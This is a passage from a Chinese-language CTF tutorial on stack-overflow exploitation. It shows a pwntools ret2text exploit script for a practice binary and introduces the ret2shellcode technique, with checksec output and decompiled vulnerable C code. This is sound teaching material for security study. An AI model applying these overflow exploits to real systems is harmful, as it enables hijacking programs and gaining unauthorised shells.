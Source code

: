 
可以看到 esp 爲 0xffffcd40，ebp 爲 0xffffcdc8，同時 s 相對於 esp 的索引爲 `esp+0x1c`，因此，我們可以推斷：

- s 的地址爲 0xffffcd5c
- s 相對於 ebp 的偏移爲 0x6c
- s 相對於返回地址的偏移爲 0x6c+4

因此最後的 payload 如下：

```python
##!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline(b'A' * (0x6c + 4) + p32(target))
sh.interactive()
```

## ret2shellcode

### 原理

ret2shellcode，即控制程序執行 shellcode 代碼。shellcode 指的是用於完成某個功能的彙編代碼，常見的功能主要是獲取目標系統的 shell。**通常情況下，shellcode 需要我們自行編寫，即此時我們需要自行向內存中填充一些可執行的代碼**。

在棧溢出的基礎上，要想執行 shellcode，需要對應的 binary 在運行時，shellcode 所在的區域具有可執行權限。

需要注意的是，**在新版內核當中引入了較爲激進的保護策略，程序中通常不再默認有同時具有可寫與可執行的段，這使得傳統的 ret2shellcode 手法不再能直接完成利用**。

### 例子

這裏我們以 bamboofox 中的 ret2shellcode 爲例，需要注意的是，你應當在內核版本較老的環境中進行實驗（如 Ubuntu 18.04 或更老版本）。由於容器環境間共享同一內核，因此這裏我們無法通過 docker 完成環境搭建。

> 點擊下載: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

首先檢測程序開啓的保護：

```shell
➜  ret2shellcode checksec ret2shellcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序幾乎沒有開啓任何保護，並且有可讀，可寫，可執行段。接下來我們再使用 IDA 對程序進行反編譯：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
